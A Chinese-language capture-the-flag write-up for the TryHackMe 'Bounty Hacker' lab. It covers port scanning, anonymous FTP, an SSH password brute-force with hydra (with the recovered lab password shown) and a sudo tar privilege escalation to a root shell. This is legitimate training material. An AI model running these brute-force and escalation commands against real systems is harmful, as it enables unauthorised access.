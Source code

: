 # Bounty Hacker
> URL : https://tryhackme.com/room/cowboyhacker

IP : 10.10.164.54

## Recon
- 掃 Port
    - `rustscan -a 10.10.164.54 -r 1-65535`
        - ![](https://i.imgur.com/OHdpHys.png)
		- 21
		- 22
		- 80
    - `nmap -A -p21,22,80 10.10.164.54`
        - ![](https://i.imgur.com/fX6jwMc.png)
        - FTP 可以匿名登入 !!
- 觀察首頁
    - ![](https://i.imgur.com/TcipcZA.jpg)
    - 沒啥東東
- dirsearch
    - 也沒啥東東
    - ![](https://i.imgur.com/e6Yx7KD.png)

## FTP Anonymous login
- FTP 登入
    - ![](https://i.imgur.com/eDhLW7K.png)
    - 裡面有兩ㄍ檔案都載下來
- FTP 檔案
    - ![](https://i.imgur.com/OHreXEW.png)
        - 作者是 `lin`
    - ![](https://i.imgur.com/jeU8FFE.png)
        - 看起來是一個密碼表

## 爆破密碼
- `hydra -l 'lin' -P locks.txt ssh://10.10.164.54`
    - ![](https://i.imgur.com/V5VCmJA.png)
    - 帳號 : `lin` 
    - 密碼 : `RedDr4gonSynd1cat3`
- SSH 登入成功
    - ![](https://i.imgur.com/EMmqpa7.png)
- 取得 user flag
    - ![](https://i.imgur.com/y5O6qRV.png)


## 提權
- 起手式 `sudo -l`
    - ![](https://i.imgur.com/VrYqxmz.png)
    - 發現可以用 `sudo tar`
- GTFOBins 尋找 tar sudo 提權
    - https://gtfobins.github.io/gtfobins/tar/#sudo
    - `    sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`
- 提權完畢，取得 root flag
    - ![](https://i.imgur.com/0kebDB6.png)
